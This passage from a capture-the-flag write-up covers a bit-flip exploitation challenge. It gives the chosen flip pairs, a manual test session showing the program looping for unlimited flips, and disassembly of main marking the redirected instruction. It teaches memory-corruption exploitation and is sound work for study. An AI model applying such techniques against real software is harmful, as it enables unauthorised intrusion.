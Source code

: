This final section does all the grunt work.  This took surprising very little time to write and I should have just started with this to save time (this CTF was during the middle of the week, I was time constrained, and made poor decisions).

And the answer is:

```
bits 1 9 0x8049284
bits 4 6 0x80490d6
```

A manual test of the `1,9` pair:

```
Right now, this program will only let you flip 2 bit(s) anywhere in memory.
That's all you get for now. No libc provided. Live up to kmh's expectations
and get a shell. Note: Your HSCTF solutions don't work anymore :)

Give me the address of the byte (hex uint32): 804c01c
Give me the index of the bit (0 to 7): 1
Flipping 0x0804c01c at offset 1...
You flipped a bit! You should be proud of yourself, great job!
Give me the address of the byte (hex uint32): 804c01d
Give me the index of the bit (0 to 7): 1
Flipping 0x0804c01d at offset 1...
You flipped a bit! You should be proud of yourself, great job!
Well, at least you tried.
Right now, this program will only let you flip 2 bit(s) anywhere in memory.
That's all you get for now. No libc provided. Live up to kmh's expectations
and get a shell. Note: Your HSCTF solutions don't work anymore :)

Give me the address of the byte (hex uint32):
```

> The 9th bit of `804c01c` is the 1st bit of `804c01d`.

Looks like it worked.  Assuming this is stable for many more bit flips, then infinite flips achieved!

Oh, if you're wonder where `0x8049284` (`0x8049086` with `1,9` flipped) is, it's actually in `main`:

```
                             main 
08049267 8d 4c 24 04     LEA        ECX=>param_1,[ESP + 0x4]
0804926b 83 e4 f0        AND        ESP,0xfffffff0
0804926e ff 71 fc        PUSH       dword ptr [ECX + local_res0]
08049271 55              PUSH       EBP
08049272 89 e5           MOV        EBP,ESP
08049274 53              PUSH       EBX
08049275 51              PUSH       ECX
08049276 83 ec 40        SUB        ESP,0x40
08049279 e8 a2 fe        CALL       __i686.get_pc_thunk.bx         
         ff ff
0804927e 81 c3 82        ADD        EBX,0x2d82
         2d 00 00
08049284 89 c8           MOV        EAX,ECX <======================= RIGHT HERE
```

